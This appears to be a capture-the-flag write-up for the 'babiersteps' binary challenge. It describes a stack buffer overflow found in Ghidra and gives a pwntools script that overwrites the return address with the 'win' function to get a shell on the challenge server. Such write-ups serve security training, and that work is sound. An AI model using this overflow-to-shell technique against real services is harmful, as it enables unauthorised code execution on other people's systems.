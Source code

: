 ![image](https://user-images.githubusercontent.com/80063008/166221564-c62ee6ce-bd6e-4a01-99ca-8a2da4bc664c.png)

Opening the binary in Ghidra we can see that it takes an input buffer of 112 bytes.

![image](https://user-images.githubusercontent.com/80063008/166223098-a7658974-9274-4b9c-98ba-97fba7bf1354.png)

We see it also has a win function.

![image](https://user-images.githubusercontent.com/80063008/166223171-8188f335-5a11-40f1-9a9f-aa77a5a1f325.png)

We can overflow that with 120 As and then return to the win function which executes /bin/sh. Here is the python script for it.


```python
from pwn import *

target = remote("challenge.nahamcon.com", 31373)
elf = ELF("./babiersteps")

payload = b"A" * 120
payload += p64(elf.symbols['win'])

target.send(payload)
target.interactive()
```

![image](https://user-images.githubusercontent.com/80063008/166223260-e9017084-0768-490d-a16a-2ec28cc78ede.png)
